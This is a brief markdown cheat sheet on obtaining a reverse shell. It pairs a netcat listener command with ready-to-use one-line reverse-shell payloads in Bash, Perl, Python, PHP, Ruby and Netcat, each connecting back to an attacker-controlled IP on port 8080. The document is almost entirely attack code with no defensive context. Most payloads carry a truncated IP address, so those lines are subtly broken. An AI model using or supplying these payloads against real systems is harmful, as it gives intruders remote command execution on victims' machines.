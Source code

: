 # Code Execution

## Get a reverse-shell
### Attacker Listening
```cmd
nc -vv -l -p 8080
```

### Payloads
  - BASH
```BASH
bash -i >& /dev/tcp/10.20.14.203/8080 0>&1
```
  - PERL
```PERL
perl -e 'use Socket;$i="10.20.14";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
  - Python
```Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.20.14",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
  - PHP
```PHP
php -r '$sock=fsockopen("10.20.14",8080);exec("/bin/sh -i <&3 >&3 2>&3");'
```
  - Ruby 
```Ruby
ruby -rsocket -e'f=TCPSocket.open("10.20.14",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
  - Netcat 
```cmd
nc -e /bin/sh 10.20.14 8080
```
